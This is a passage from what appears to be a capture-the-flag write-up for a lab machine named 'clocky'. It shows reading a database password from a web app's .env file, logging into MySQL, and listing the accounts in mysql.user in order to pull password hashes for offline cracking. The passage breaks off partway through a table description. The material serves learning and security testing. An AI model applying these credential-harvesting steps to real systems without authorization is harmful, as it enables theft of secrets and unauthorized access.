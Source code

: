 This use the os module to get the environment variable `db` and uses it as the password for the user clocky_user to connect to the MySQL database running locally on the target. This variable are store in the `.env` file of the web application root directory. We read it to obtain the password used to access the database server.
```bash
clarice@clocky:~$ cat app/.env 
db=<REDACTED>
```

We can use this password to connect to the database and enumerate it.
```bash
clarice@clocky:~$ mysql -u clocky_user -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 19
Server version: 8.0.34-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

We can start our enumeration by enumerating users who can access the database server. If more than one is present, we can read their password hash and attempt an offline brute force attack.
```mysql
mysql> SELECT user FROM mysql.user;
+------------------+
| user             |
+------------------+
| clocky_user      |
| dev              |
| clocky_user      |
| debian-sys-maint |
| dev              |
| mysql.infoschema |
| mysql.session    |
| mysql.sys        |
| root             |
+------------------+
9 rows in set (0.00 sec)
```

We can see that more that one user can connect to the database server. If we enumerate the columns available in the mysql.user table, we will notice that the MySQL plugin `caching_sha2_password` is activated. 
```mysql
mysql> DESCRIBE user;
+--------------------------+-----------------------------------+------+-----+-----------------------+-------+
| Field                    | Type                              | Null | Key | Default               | Extra |
+--------------------------+-----------------------------------+------+-----+-----------------------+-------+
| Host                     | char(255)                         | NO   | PRI |                       |       |
| User                     | char(32)                          | NO   | PRI |                       |       |
| Select_priv              | enum('N','Y')                     | NO   |     | N                     |       |
```